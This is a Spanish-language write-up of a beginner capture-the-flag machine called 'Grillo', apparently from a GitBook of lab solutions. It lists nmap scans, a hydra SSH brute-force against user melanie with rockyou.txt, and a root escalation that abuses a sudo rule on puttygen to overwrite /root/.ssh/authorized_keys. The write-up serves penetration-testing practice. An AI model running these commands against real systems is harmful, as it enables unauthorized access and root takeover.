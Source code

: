 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Grillo

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.67
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (77).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.67
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (78).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.67
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-10-12 214807.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/imagen (79).png" alt=""><figcaption></figcaption></figure>

Al revisar el código fuente nos encontramos un comentario muy interesante. Nos menciona a un usuario que se llama **melanie**.

<figure><img src="../../.gitbook/assets/imagen (71).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.67 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.67**.

<figure><img src="../../.gitbook/assets/imagen (82).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **melanie**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh melanie@192.168.1.67
```

<figure><img src="../../.gitbook/assets/imagen (72).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (73).png" alt=""><figcaption></figcaption></figure>

Primero, creamos una clave SSH utilizando puttygen, una herramienta diseñada para gestionar claves SSH en diferentes formatos.

```bash
puttygen -t rsa -o id_rsa -O private-openssh
```

Esto genera una nueva clave privada RSA, que se almacena en el archivo **id\_rsa**. También se nos pide ingresar una frase de paso para agregar una capa extra de seguridad a la clave privada.\
Después de crear la clave, utilizamos el comando `ls` para confirmar que el archivo **id\_rsa** ha sido creado exitosamente.

<figure><img src="../../.gitbook/assets/imagen (74).png" alt=""><figcaption></figcaption></figure>

Con la clave privada generada, el siguiente paso es crear la clave pública correspondiente y agregarla al archivo **authorized\_keys** del usuario root. Esto permitirá el acceso SSH sin necesidad de contraseña desde la cuenta de Melanie:

```
sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Antes de intentar conectarnos por SSH, modificamos los permisos de la clave privada para garantizar que solo el usuario tenga acceso de lectura:

```
chmod 600 id_rsa
```

<figure><img src="../../.gitbook/assets/imagen (75).png" alt=""><figcaption></figcaption></figure>

Finalmente, empleamos la clave privada para acceder al servidor como usuario **root**.

```bash
ssh -i id_rsa root@192.168.1.67
```

<figure><img src="../../.gitbook/assets/imagen (76).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
